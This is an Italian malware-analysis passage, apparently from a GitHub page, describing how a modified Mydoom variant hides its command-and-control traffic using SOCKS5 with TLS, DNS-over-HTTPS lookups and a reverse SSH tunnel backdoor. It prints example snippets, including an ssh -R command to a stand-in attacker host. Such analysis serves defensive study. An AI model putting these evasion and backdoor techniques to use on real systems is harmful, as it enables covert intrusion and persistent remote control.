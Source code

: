 - Il traffico SOCKS4 non è cifrato → se intercettato, può essere analizzato.
- La connessione avviene in **plain text**, quindi strumenti di IDS possono identificarla.
- Nessuna protezione avanzata contro **man-in-the-middle (MITM) attacks**.

------

#### **2️⃣ Miglioramenti nei Protocolli di Rete nella Variante Modificata**

La nuova variante ha apportato **diverse modifiche** per rendere la comunicazione con il C2 più furtiva e resiliente.

✅ **Adozione di SOCKS5 con Crittografia**

- Il nuovo codice (`xproxy.c`) mostra l’implementazione di **SOCKS5**, che supporta l’autenticazione e la crittografia opzionale.

- Il malware ora può usare **TLS (Transport Layer Security)** per rendere più difficile l’ispezione del traffico.

  ```c
  setsockopt(s, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval));
  connect(s, (struct sockaddr *)&c2_addr, sizeof(c2_addr));
  SSL_write(ssl, encrypted_data, data_size);
  ```

✅ **Uso di DNS-over-HTTPS (DoH)**

- Per evitare il **blocco delle richieste DNS**, il malware ora usa **DoH** per risolvere i domini C2 senza esporre le query.

- I server DNS tradizionali possono bloccare un dominio C2, ma con DoH, Mydoom maschera le query come traffico HTTPS legittimo.

  ```python
  import requests
  doh_url = "https://cloudflare-dns.com/dns-query"
  headers = {"accept": "application/dns-json"}
  response = requests.get(doh_url, headers=headers, params={"name": "malware-c2.com", "type": "A"})
  ```

✅ **Tunnel SSH per il Controllo Remoto**

- La variante implementa una **connessione SSH inversa** per stabilire una backdoor persistente.

- Questo permette all’attaccante di controllare il sistema infetto senza essere rilevato dai firewall tradizionali.

  ```bash
  ssh -R 2222:localhost:22 attacker@malware-c2.com
  ```

🔹 **Miglioramenti rispetto alla versione originale**

- **Uso di crittografia TLS/SSL** per evitare l’ispezione del traffico.
- **DoH impedisce il rilevamento DNS**, rendendo il server C2 più difficile da bloccare.
- **Tunnel SSH garantisce un accesso sicuro** per il controllo remoto.

**Tabella riassuntiva:**
